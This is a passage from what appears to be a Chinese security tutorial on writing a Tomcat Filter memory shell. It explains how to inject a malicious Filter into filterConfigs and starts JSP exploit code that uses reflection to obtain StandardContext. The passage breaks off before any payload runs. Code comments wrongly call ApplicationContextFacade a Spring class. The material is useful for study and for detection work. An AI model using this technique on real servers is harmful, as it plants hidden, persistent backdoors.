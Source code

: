 过滤器是从filterConfigs这个Map里拿的，那么我们把恶意的Filter添加进 filterConfigs 里，等它取出来，添加到Filter链中就可以了，那么接下来怎么构造过滤器，也就是filterConfig，看调试信息<br/>  

<br/> 首先获取上下文context，然后就是自定义的filter代码，最后一个filterDef就是对应web.xml中对filter的配置，fiterConfig的相关内容都是从context中得到

FilterDefs：存放 FilterDef 的数组 ，FilterDef 中存储着我们过滤器名，过滤器实例等基本信息<br/> FilterConfigs：存放 filterConfig 的数组，在 FilterConfig 中主要存放 FilterDef 和Filter 对象等信息<br/> FilterMaps：存放 FilterMap 的数组，在 FilterMap 中主要存放了 FilterName 和 对应的 URLPattern

所以只要我们将filter ，FilterDefs，FilterMaps添加到FilterConfigs中就可以添加filter了<br/> 贴上别的师傅的流程图<br/>  

<br/> 其中这里涉及到了几个类

```
ServletContext：
javax.servlet.ServletContextServlet规范中规定了的一个ServletContext接口，提供了Web应用所有Servlet的视图，通过它可以对某个Web应用的各种资源和功能进行访问。WEB容器在启动时，它会为每个Web应用程序都创建一个对应的ServletContext，它代表当前Web应用。并且它被所有客户端共享。 

ApplicationContext：
org.apache.catalina.core.ApplicationContext
对应Tomcat容器，为了满足Servlet规范，必须包含一个ServletContext接口的实现。Tomcat的Context容器中都会包含一个ApplicationContext。

StandardContext：
Catalina主要包括Connector和Container，StandardContext就是一个Container，它主要负责对进入的用户请求进行处理。实际来说，不是由它来进行处理，而是交给内部的valve处理。
一个context表示了一个外部应用，它包含多个wrapper，每个wrapper表示一个servlet定义。（Tomcat 默认的 Service 服务是 Catalina）

```

引用师傅的解释，当前这是前面tomcat架构的内容，所以基础内容还是要了解。

### 0x04 Filter内存马exp编写

通过反射创建上面需要的几个对象

```
&lt;%@ page import="java.lang.reflect.Field" %&gt;
&lt;%@ page import="org.apache.catalina.Context" %&gt;
&lt;%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %&gt;
&lt;%@ page import="java.lang.reflect.Constructor" %&gt;
&lt;%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %&gt;
&lt;%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %&gt;
&lt;%@ page import="org.apache.catalina.core.ApplicationContextFacade" %&gt;
&lt;%@ page import="org.apache.catalina.core.ApplicationContext" %&gt;
&lt;%@ page import="org.apache.catalina.core.StandardContext" %&gt;
&lt;%@ page import="java.util.HashMap" %&gt;
&lt;%@ page import="java.io.IOException" %&gt;
&lt;%


//请求对象 request 中获取 ServletContext 对象。
    ServletContext servletContext = request.getServletContext();
//ApplicationContextFacade 是 Spring 框架中的一个类，用于封装 Spring 的 Web 应用程序上下文。
    ApplicationContextFacade applicationContextFacade = (ApplicationContextFacade) servletContext;
//通过反射获取上下文
    Field applicationContextFacadeContext = applicationContextFacade.getClass().getDeclaredField("context");
    applicationContextFacadeContext.setAccessible(true);


// context 字段，即 Spring 的应用程序上下文对象。通过反射获取到该字段的值，它被强制转换为 ApplicationContext 类型
    ApplicationContext applicationContext = (ApplicationContext) applicationContextFacadeContext.get(applicationContextFacade);
//从 ApplicationContext 类中获取一个名为 "context" 的私有字段。这个字段存储了实际的 Spring 应用程序上下文对象
    Field applicationContextContext = applicationContext.getClass().getDeclaredField("context");
    applicationContextContext.setAccessible(true);
```